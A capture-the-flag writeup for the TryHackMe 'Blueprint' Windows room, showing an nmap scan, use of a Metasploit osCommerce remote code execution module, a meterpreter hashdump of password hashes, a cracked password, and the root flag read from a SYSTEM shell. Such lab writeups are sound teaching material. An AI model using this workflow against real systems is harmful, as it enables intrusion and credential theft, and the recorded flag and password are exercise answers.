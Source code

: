 ```yaml
---
title: "Blueprint - TryHackMe"
author: Ludovic COULON
date: 2020-05-28
hero: ./images/hero.jpeg
excerpt: "Writeup for the Blueprint on TryHackMe"
---
```


[TryHackMe | Blueprint](https://tryhackme.com/room/blueprint)

<div className="Image__Small">
  <img src="https://webstockreview.net/images/win-clipart-blueprint-1.png" alt="blog_image" />
</div>

Do you have what is takes to hack into this Windows Machine?

`It might take around 3-4 minutes for the machine to boot.`

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.80.61
```

```bash
PORT      STATE SERVICE     REASON  VERSION
135/tcp   open  msrpc       syn-ack Microsoft Windows RPC

139/tcp   open  netbios-ssn syn-ack Windows 7 Home Basic 7601 Service Pack 1 netbios-ssn

443/tcp   open  ssl/http    syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
| SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1

3306/tcp  open  mysql       syn-ack MariaDB (unauthorized)

8080/tcp  open  http        syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open  msrpc       syn-ack Microsoft Windows RPC
49153/tcp open  msrpc       syn-ack Microsoft Windows RPC
49154/tcp open  msrpc       syn-ack Microsoft Windows RPC
49158/tcp open  msrpc       syn-ack Microsoft Windows RPC
Service Info: Hosts: www.example.com, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m59s, deviation: 34m37s, median: 0s
| nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:05:ad:f5:e5:be (unknown)
| Names:
|   BLUEPRINT<00>        Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   BLUEPRINT<20>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02 05 ad f5 e5 be 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 41714/tcp): CLEAN (Couldnt connect)
|   Check 2 (port 54382/tcp): CLEAN (Couldnt connect)
|   Check 3 (port 22612/udp): CLEAN (Failed to receive data)
|   Check 4 (port 23038/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-28T19:03:48+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-28T18:03:50
|_  start_date: 2020-05-28T18:03:02
```

<div className="Image__Small">
  <img src="https://imgur.com/rUJpFMM.png" alt="blog_image" />
</div>

[osCommerce 2.3.4.1 - Remote Code Execution by DanielRTeixeira · Pull Request #9821 · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/pull/9821/files/b5681cb954bed6a1e64cf6708cbd5a937e596f5b)

<div className="Image__Small">
  <img src="https://imgur.com/nrRw0SU.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/lecapcm.png" alt="blog_image" />
</div>

### #1 "Lab" user NTML hash decrypted

```bash
meterpreter > run hashdump
```

<div className="Image__Small">
  <img src="https://imgur.com/J5xg1PX.png" alt="blog_image" />
</div>

```bash
googleplus
```

### #2 root.txt

```bash
meterpreter > shell
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> whoami
nt authority\system
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> cd C:\User\Administrator\Desktop
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> type root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/tpmhPhO.png" alt="TryhackMeProfile" />
  </a>
</center>
